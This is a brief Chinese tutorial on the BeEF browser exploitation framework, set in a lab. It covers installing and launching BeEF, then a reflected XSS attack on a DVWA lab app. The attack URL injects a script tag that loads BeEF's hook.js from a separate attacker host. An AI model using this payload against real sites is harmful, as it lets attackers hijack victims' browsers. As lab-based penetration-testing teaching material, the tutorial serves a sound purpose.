



# BeEF 浏览器渗透框架简介

https://beefproject.com/

https://github.com/beefproject/beef

BeEF是一种浏览器渗透框架，可作为渗透测试web浏览器的工具，主要构造客户端攻击向量，例如XSS.

## 安装
```shell
#source code pull
git clone https://github.com/beefproject/beef

#支持库安装
apt-get install python-software-properties
sudo apt-add-repository -y ppa:brightbox/ruby-ng
#安装
./install

```

## 运行
```shell
sudo beef-xss
```
正常会出现下列命令输出：


然后我们打开有xss漏洞的DVWA应用，其IP地址为10.10.10.135；

之后使用宿主机浏览器去访问DVWA中的反射型xss，可以先在输入框中输入一些字符，然后提交，可以看到地址栏url变为：
```http://10.10.10.135/dvwa/vulnerabilities/xss_r/?name=123#```

然后改写为：
```http://10.10.10.135/dvwa/vulnerabilities/xss_r/?name=%3Cscript%20src=%22http://10.10.10.141:3000/hook.js%22%3E%3C/script%3E#```

或```http://10.10.10.135/dvwa/vulnerabilities/xss_r/?name=%3Cscript%20src=%22http://10.10.10.141:3000/hook.js%22%3E%3C/script%3E#```




